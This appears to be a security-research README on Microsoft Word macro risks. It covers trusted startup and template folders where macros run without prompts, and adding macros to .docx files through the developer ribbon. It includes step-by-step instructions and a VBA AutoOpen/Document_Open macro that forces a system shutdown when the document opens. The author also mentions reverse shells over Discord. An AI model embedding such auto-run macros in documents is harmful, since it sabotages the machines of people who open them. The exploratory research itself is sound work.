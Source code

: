 ## Security researching microsoft word (.docx) documents
### Observation 1: Word trusted locations
```
C:\Users\[User]\AppData\Roaming\Microsoft\Word\Startup\ 
C:\Users\[User]\AppData\Roaming\Microsoft\Templates\
```

Some locations are deemed as "trusted" locations by word, which means running a word document from there can run macros or activeX without prompt. This could potentially be leveraged by threat actors who could first write a word doc into that location and runit thereby any macros associated.

### Observation 2: Word extensions for macro enabled/disabled documents
Under normal circumstances, .docm is the default extension for any macros added. However through the developer ribbon, macros can be added without changing the file extension. This greatly increases the risk of a reverse shell running in the background, especially one that tunnels through trusted channels like discord.
Here's how!!
1.) Check developer under File -> Options -> Customise Ribboms -> Right box -> Developer
2.) Create a new macro and paste in the script
3.) Save the document

### Example
```vbs
Sub AutoOpen()
'
' AutoOpen Macro
'
'
    CreateObject("Wscript.shell").Run "shutdown -s -f -t 500"
End Sub
 
Sub Document_Open()
    CreateObject("Wscript.shell").Run "shutdown -s -f -t 500"
End Sub
```
Referenced from [Reverse Shell From Word Document (Agis, 2021)](https://github.com/Agisthemantobeat/Reverse-Shell-From-Word-Document)
The above script, when pasted in as a module (macro), opens the shell and schedules a shutdown.
I tested it on a docx outside of trusted directory and word protection (editing enabled) which ran without any prompts.


### More possibilities?

Active X is a feature written in the same language as the above macro (vbs), and it allows the user to interact with the document. It can also be used to run macros though it won't make much of a difference. 

Office generally allows interaction between office apps, so perhaps we could do it for excel?
